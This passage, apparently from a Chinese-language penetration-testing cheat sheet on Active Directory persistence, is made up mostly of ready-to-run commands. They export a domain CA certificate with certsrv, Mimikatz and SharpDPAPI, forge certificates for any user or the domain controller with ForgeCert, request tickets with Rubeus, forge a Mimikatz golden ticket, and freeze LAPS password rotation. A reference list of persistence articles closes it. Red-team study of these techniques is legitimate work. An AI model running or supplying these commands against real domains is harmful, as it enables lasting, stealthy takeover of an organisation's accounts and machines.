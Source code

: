 ### 金钥匙证书

> 需要在Active Directory中或ADCS机器上提升权限

* 导出CA为p12文件：`certsrv.msc` > `右击` > `备份CA...`

* 替代方案1：使用Mimikatz提取证书为PFX/DER

  ```ps1
  privilege::debug
  crypto::capi
  crypto::cng
  crypto::certificates /systemstore:local_machine /store:my /export
  ```

* 替代方案2：使用SharpDPAPI，然后转换证书：`openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`

* [ForgeCert](https://github.com/GhostPack/ForgeCert) - 使用CA证书为任何活跃域用户伪造证书

  ```ps1
  ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName harry@lab.local --NewCertPath harry.pfx --NewCertPassword Password123
  ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName DC$@lab.local --NewCertPath dc.pfx --NewCertPassword Password123
  ```

* 最后，您可以使用证书请求TGT

  ```ps1
  Rubeus.exe asktgt /user:ron /certificate:harry.pfx /password:Password123
  ```

### 金票

> 使用Mimikatz伪造金票

```ps1
kerberos::purge
kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
kerberos::tgt
```

### LAPS持久性

为了防止机器更新其LAPS密码，可以将更新日期设置为未来。

```ps1
Set-DomainObject -Identity <target_machine> -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```

## 参考资料

* [Windows Persistence Commands - Pwn Wiki](http://pwnwiki.io/#!persistence/windows/index.md)
* [SharPersist Windows Persistence Toolkit in C - Brett Hawkins](http://www.youtube.com/watch?v=K7o9RSVyazo)
* [IIS Raid – Backdooring IIS Using Native Modules - 19/02/2020](https://www.mdsec.co.uk/2020/02/iis-raid-backdooring-iis-using-native-modules/)
* [Old Tricks Are Always Useful: Exploiting Arbitrary File Writes with Accessibility Tools - Apr 27, 2020 - @phraaaaaaa](https://iwantmore.pizza/posts/arbitrary-write-accessibility-tools.html)
* [Persistence - Checklist - @netbiosX](https://github.com/netbiosX/Checklists/blob/master/Persistence.md)
* [Persistence – Winlogon Helper DLL - @netbiosX](https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/)
* [Persistence - BITS Jobs - @netbiosX](https://pentestlab.blog/2019/10/30/persistence-bits-jobs/)
* [Persistence – Image File Execution Options Injection - @netbiosX](https://pentestlab.blog/2020/01/13/persistence-image-file-execution-options-injection/)